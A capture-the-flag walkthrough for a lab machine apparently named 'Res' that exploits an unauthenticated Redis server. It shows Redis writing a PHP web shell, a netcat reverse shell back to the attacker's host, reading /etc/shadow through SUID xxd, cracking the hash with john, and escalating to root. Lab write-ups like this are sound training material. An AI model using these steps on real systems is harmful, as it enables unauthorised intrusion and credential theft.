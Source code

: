# Res

Scanning the environment we find an apache webserver and a redis database...

``` sh
sudo nmap -sC -sV -sS 10.10.103.145 -p-
```

When connecting to redis we can set write a file to the main apache dir and create a simple php reverse shell:

``` sh
redis-cli -h 10.10.103.145
>config set dir /var/www/html
>config set dbfilename shell.php
>set test "<?php system($_GET['cmd']);?>"
```

Before we visit our new page we should open a netcat session:

``` sh
nc -nvlp 666
```

Time to run our shell.php :)

``` sh
http://10.10.103.145/shell.php?cmd=nc 10.10.146.116 667 -e /bin/sh
```

Once we are succesfully connected we can stabilize the shell and view the first flag:

``` sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat /home/vianka/user.txt
```

Lets have a look at the passwd

``` sh
cat /etc/passwd
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

There is SUID bit set for xxd. To access the shadow file can use [this trick](https://gtfobins.github.io/gtfobins/xxd/).

``` sh
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Time to crack the password:

``` sh
unshadow passwd.txt shadow.txt > hash.txt
john hash.txt
```

Once we have the password we can escalate our priviledges to vianka which somehow also has root access.

``` sh
su vianka
sudo su
cat /root/root.txt
```
